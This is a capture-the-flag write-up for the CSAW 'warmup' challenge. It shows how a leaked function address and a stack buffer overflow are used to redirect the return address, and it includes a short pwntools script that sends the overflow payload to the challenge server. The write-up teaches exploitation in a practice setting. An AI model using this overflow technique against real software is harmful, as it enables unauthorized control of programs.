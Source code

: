![description](images/description.png)

The challenge provides us with a binary "warmup".
Running this binary prints a hex value, then takes user input.
![program test](images/test.png)

Opening it in ida shows that it is printing the address of some symbol named "easy":
![main in ida](images/main.png)

Lets see what this 'easy' symbol is:
![easy](images/easy.png)

The function 'easy' simply prints out the flag to us.

Looking back at the main method, the part that takes in user input is vulnerable to buffer overflow.
The buffer that it writes into is located at [bp - 40h], so anything past 0x40 bytes will overwrite other info.

If you are not familiar with the x86 stack frame layout, http://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64 has some good diagrams.
In short, the return address of our current function is stored at RBP + 8. If we overwrite this 
return address with the address of 'easy', the main function will return into easy, and will print
the flag for us.

I threw together a quick python script to run this exploit:
~~~
#pwntools provides many tools for exploitation challenges
from pwn import *

#establish a connection to the server running the "warmup" binary
r = remote('pwn.chal.csaw.io', 8000)

#receive the first message, which containts the address of 'easy'
msg = r.recv()
lines = msg.split('\n')

#slice the second line of the server message to get the address it sent and convert it to an integer
address = int(lines[1][4:],16)

#sends enough A's to fill the buffer up to the location of the return address, followed by the address of 'easy' that was leaked to us earlier
r.sendline("A" * (0x40 + 8) + p64(address))

#print the server response
print(r.recv())
~~~
Running this gives the flag:
![flag](images/flag.png)


